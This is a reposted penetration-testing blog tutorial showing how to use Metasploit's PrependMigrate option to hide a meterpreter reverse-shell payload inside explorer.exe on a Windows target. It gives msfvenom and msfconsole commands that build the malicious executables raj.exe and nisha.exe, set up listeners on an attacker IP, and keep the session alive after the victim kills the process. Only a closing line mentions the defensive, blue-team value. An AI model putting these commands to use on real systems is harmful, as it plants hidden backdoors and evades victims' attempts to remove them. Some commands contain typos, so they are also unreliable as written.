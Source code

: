```yaml
---
title: 'Hiding Shell using PrependMigrate -Metasploit'
date: 2019-12-13T14:11:00+01:00
draft: false
---
```


In this article, you will get to know about the strength of mfsvenom along with PrependMigrate. You will also learn how to migrate the created payload into processes currently running on the targeted machine so, the victim unable to find the malicious file. It is very important to migrate your backdoor payload because if the target is alerted and decides to take measures to kill the process then, your session will also get killed. Therefore, an attacker must do this as soon as the session opens.

### **Table of Content**

*   **Basic Terminologies**
    *   Metasploit Framework
    *   MSFvenom
*   **Hiding shell with PrependMigrate**
    *   With MSFvenom.
    *   Without MSFvenom.

**Basic Terminologies**

**Metasploit Framework**

[Metasploit Framework](https://en.wikipedia.org/wiki/Metasploit_Project#Metasploit_Framework), an open source tool for developing and executing exploit code against a remote target machine.

**Steps for exploiting a system using the Framework include:**

*   Choosing and configuring an exploit
*   Checking whether the intended target system is susceptible to the chosen exploit
*   Choosing and configuring a payload
*   Choosing the encoding technique
*   Executing the exploit.

This modular approach – allowing the combination of any exploit with any payload – is the major advantage of the Framework. It facilitates the tasks of attackers, exploit writers and payload writers. 

### **Msfvenom**

MSFvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. It is used to generate and encode various types of payload that are available in Metasploit Framework. The advantages of msfvenom are:

*   One single tool
*   Standardized command line options
*   Increased speed

### **PrependMigrate**

PrependMigrate is an option that allows us to link our session with an ongoing process on the target system. It can also transfer a session by linking it from one process to another. It comes handy as it is difficult for the target to find the malicious process so it becomes paramount for the attacker to cover their tracks.

**Configurations used in Practical**

**Attacker:**

    OS: Kali Linux

    IP: 192.168.1.107

**Target:**

 OS: Windows 10

      IP: 192.168.1.104

### **1st Method**

Let’s start the game of conceal and seek. You have to conceal to save yourself and let the target try to find you.

Starting with MSFvenom we will be creating a malicious executable named raj.exe and conceal the generated executable behind a process named explorer.exe (you can choose any process running on task manager) by PrependMigrate process.

```
msfvenom –p windows/meterpreter/reverse\_tcp lhost=192.168.1.107 lport=1234 prpendmigrateprocess=explorer.exe prependmigrate=true -f.exe > raj.exe
```

![](https://i0.wp.com/1.bp.blogspot.com/-6CpBwEk3xNc/XfOLOtwnyPI/AAAAAAAAh60/7mZOyDtFHrwZlWE0dE633_68WNwZSa_nQCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

Next we will be loading the Metasploit framework on Kali Linux by using **msfconsole** keyword**.** Then set the following options to enable our handler:

```
use exploit/multi/handler  
set payload windows/meterpreter/reverse\_tcp  
set lhost 192.168.1.107  
set lport 1234  
exploit
```

![](https://i1.wp.com/1.bp.blogspot.com/-h9ZXYpvvKPg/XfOLO_vnRBI/AAAAAAAAh64/PEBQ4C_XM0YjhynvneZwcw8hvu5q5npzgCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

Now, we will send the payload to the target machine and run the executable on the Target Machine. This will generate a meterpreter session which will be captured by the listener we created earlier. You can access the target system but if the target acknowledges that the system is compromised; then they can take security measures to end your session. To escape from this situation, attacker’s first responsibility is to conceal the executable payload behind the process so the victim cannot identify it in any way possible.

Use the following ps command to check the processes that are running presently and filter with the raj.exe

```
ps|grep raj.exe
```

 The process ID (PID) of raj.exe i.e. 4848 as shown in process list and if the victim kills the raj.exe i.e. 4848 PID then the running process will end. Thus, ending our session with a simple command:

```
kill 4848
```

But you do not need to worry as PrependMigrate saves the day by letting us conceal raj.exe behind the explorer.exe and you will be at an advantage as your meterpreter session is still running. Even after the system reboots, the Meterpreter on the victim system attempts to connect to us every 5 seconds until it has successfully opened a session for us. And you can use sysinfo command to confirm that the session is still up and running.

![](https://i1.wp.com/1.bp.blogspot.com/-5BUAeDy657w/XfOLO8XKmJI/AAAAAAAAh68/oxopDraIQQAby2N_khsiNMewVsi0w_VXgCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

### **Second way**

The Second way of hiding shell using the PrependMigrate but without using msfvenom. Here, the objective is the same as the earlier. We will start with opening the Metasploit Framework.

Then use the following set of commands to create your payload:

```
use windows/meterpreter/reverse\_tcp  
set lhost 192.168.1.107  
set lport 4444  
set prependmigrate true  
set prependmigrateprocess explorer.exe  
generate –f.exe - o nisha.exe
```

![](https://i2.wp.com/1.bp.blogspot.com/-QrjDOtPPbug/XfOLPlbMFfI/AAAAAAAAh7A/U9rUpKavFo0Mk5uPcrDjiEmFWudCrxN3QCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

After the creation of malicious executable i.e. nisha.exe, we will create listener multi/handler using following commands:

```
use exploit/multi/handler  
set payload windows/meterpreter/reverse\_tcp  
set lhost 192.168.1.107  
set lport 4444  
exploit
```

Using the ps command along with grep command we will get the PID of nisha .exe i.e.4128

```
ps|grep nisha.exe
```

(Note: PID stands for process id, which means identification number for currently running process in memory. PPID stands for Parent Process Id, which means the parent process is responsible for creating the child (current) process. Through parent Process, the child process will be created.)

Now the we try ourselves to kill the nisha.exe process to get conceal from the victim with the following command:

```
kill 4128
```

But still, you have a victim’s session which means nisha.exe migrates into new process id of explorer.exe. And you can use sysinfo command to confirm that the session is still up and running.

![](https://i2.wp.com/1.bp.blogspot.com/-Iqr4prmpfeo/XfOLP14OMlI/AAAAAAAAh7E/GKxr26vAK50NBK6efhSjpVftIZbLAC4rgCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

**Conclusion**

This is how one conceals themselves. The purpose of this article is to serve both blue team and red team as one should be aware on how to locate and eliminate the attacker as well as how to conceal yourself when you are on the other side of the line.

**Author**: Nisha Sharma is trained in Certified Ethical hacking and Bug Bounty Hunter. Connect with her [**here**](https://www.linkedin.com/in/nishasharmaa/?originalSubdomain=in)

The post [Hiding Shell using PrependMigrate -Metasploit](https://www.hackingarticles.in/hiding-shell-using-prependmigrate-metasploit/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/36qLwQi